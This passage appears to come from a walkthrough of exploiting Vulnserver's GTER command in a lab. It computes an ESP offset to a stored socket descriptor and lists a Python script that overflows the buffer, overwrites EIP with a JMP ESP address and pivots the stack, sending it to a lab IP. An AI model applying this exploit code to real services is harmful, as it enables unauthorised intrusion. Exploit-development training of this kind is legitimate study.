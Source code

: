 The absolute address of ```ebp-420``` is ```0x00ecfb50``` where our value for file descriptor ```124``` is present in it

Our value of ```ESP``` is ```0x00ecf9c8```

The difference in offsets between these addresses are,

```c
>>> 0xecfb50 - 0xecf9c8
392
>>> hex(0xecfb50 - 0xecf9c8)
'0x188'
```

We can use this offset difference to dynamically load the value of file descriptor which will be stored on ```ESP+0x188```, at the moment when our ```stage 1 payload``` gets hit

Lets analyse it with our python script to check the memory when our data gets received into it

```c
┌──(kali㉿aidenpearce369)-[~/vulnserver/GTER]
└─$ cat stack-pivot.py 
import socket, sys
payload=b""
# to overwrite buffer and EBP
payload+=b"\x90"*100
payload+=b"\xcc" #placing breakpoint 
payload+=b"\x90"*50
# to overwrite EIP with JMP ESP
payload+=b"\xaf\x11\x50\x62"
# stack pivot
payload+=b"\x90"
payload+=b"\x83\xc0\x10"
payload+=b"\xff\xe0"
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("192.168.116.140", 9999))
s.send((b"GTER "+payload))
s.close()
sys.exit()

┌──(kali㉿aidenpearce369)-[~/vulnserver/GTER]
└─$ python3 stack-pivot.py
```

While running this, we will be performing the ```jump shellcode (stage1)``` and we will be returned to the buffer data

<div align="center">
<img src="https://raw.githubusercontent.com/AidenPearce369/Vulnserver-Walkthrough/main/res/gter2-fd-4.png">
</div>
